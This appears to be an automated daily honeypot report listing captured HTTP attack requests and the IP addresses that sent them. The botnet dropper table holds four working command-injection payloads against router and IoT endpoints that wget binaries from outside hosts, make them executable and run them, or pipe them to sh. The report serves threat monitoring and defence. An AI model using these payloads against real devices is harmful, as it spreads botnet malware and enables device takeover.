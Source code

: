 ```yaml
---
title: "Report: 2025-02-01 "
date: 2025-02-01
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-01
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                                                                                                                                                                                              |
|---:|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 45.148.10.242  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                         |
|  1 | 124.220.11.157 | GET /shell?cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F45.95.147.201%2Fbins%2Farm7%3B%20chmod%20777%20arm7%3B%20.%2Farm7%20jaws%3B HTTP/1.1\x5Cr\x5CnUser-Agent: Mozila/5.0\x5Cr\x5CnHost: 127.0.0.1:80\x5Cr\x5CnAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\x5Cr\x5CnConnection: keep-alive\x5Cr\x5Cn\x5Cr\x5Cn\x11 |
|  2 | 87.121.84.7    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+http%3A%2F%2F103.163.215.73%2Fmoo+-O-+|+sh%60) HTTP/1.1                                                                                                                                                                                                          |
|  3 | 141.98.11.35   | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+drea4+efefa7;wget+http:/\x5C/93.123.109.120/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/93.123.109.120/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1                                       |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                    45 | 35.89.137.11    |
|   1 |                    28 | 195.3.223.55    |
|   2 |                    24 | 167.99.142.36   |
|   3 |                    15 | 146.19.24.168   |
|   4 |                    12 | 162.243.113.180 |
|   5 |                    12 | 104.234.115.74  |
|   6 |                    12 | 139.59.105.108  |
|   7 |                    12 | 104.234.115.119 |
|   8 |                    12 | 104.234.115.84  |
|   9 |                    12 | 164.90.148.132  |
|  10 |                    12 | 194.110.115.19  |
|  11 |                    11 | 95.214.55.43    |
|  12 |                    11 | 107.170.79.175  |
|  13 |                    11 | 152.42.248.177  |
|  14 |                    10 | 78.153.140.149  |
|  15 |                    10 | 185.196.220.253 |
|  16 |                     9 | 109.236.61.85   |
|  17 |                     9 | 45.148.10.242   |